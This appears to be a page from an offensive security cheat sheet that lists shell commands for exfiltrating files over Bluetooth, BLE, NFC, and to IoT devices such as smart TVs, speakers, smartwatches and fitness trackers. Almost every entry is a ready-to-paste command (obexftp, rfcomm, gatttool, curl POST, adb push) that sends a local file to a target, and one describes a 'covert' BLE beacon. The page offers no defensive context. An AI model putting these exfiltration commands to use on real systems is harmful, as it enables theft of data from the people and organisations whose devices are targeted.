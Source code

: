 #### Bluetooth
- **Exfiltrate Data via Bluetooth Using `obexftp`:**
	```bash
	obexftp --nopath --noconn --uuid none --bluetooth <target_mac> --channel <channel> --put /path/to/local_file
	```
- **Transfer Files Over Bluetooth Using `rfcomm`:**
	```bash
	rfcomm connect hci0 <target_mac> 1 cat /path/to/local_file > /dev/rfcomm0
	```
- **Exfiltrate Data via Bluetooth Low Energy (BLE):**
	```bash
	gatttool -b <target_mac> --char-write-req --handle=<handle> --value=$(xxd -p /path/to/local_file)
	```
- **Set Up a BLE Beacon for Covert Exfiltration:**
	```bash
	hcitool -i hci0 cmd 0x08 0x0008 00 00 00 00 00 00 00 00 00 00 00 00
	```

#### RFID/NFC
- **Write Data to an NFC Tag:**
	```bash
	nfc-mfclassic w a /path/to/dump.mfd /path/to/local_file
	```
- **Read and Exfiltrate Data from an NFC Tag:**
	```bash
	nfc-mfclassic r a /path/to/dump.mfd /path/to/output.mfd
	```

# Data Exfiltration via IoT

#### Smart Home Devices
- **Exfiltrate Data via a Smart TV:**
	```bash
	curl -X POST -d @/path/to/local_file http://<smart_tv_ip>/upload
	```
- **Send Data to a Smart Speaker:**
	```bash
	curl -X POST -d @/path/to/local_file http://<smart_speaker_ip>/command
	```

#### Wearable Devices
- **Exfiltrate Data to a Smartwatch:**
	```bash
	adb -s <smartwatch_ip> push /path/to/local_file /sdcard/
	```
- **Send Data to a Fitness Tracker:**
	```bash
	gatttool -b <tracker_mac> --char-write-req --handle=<handle> --value=$(xxd -p /path/to/local_file)
	```
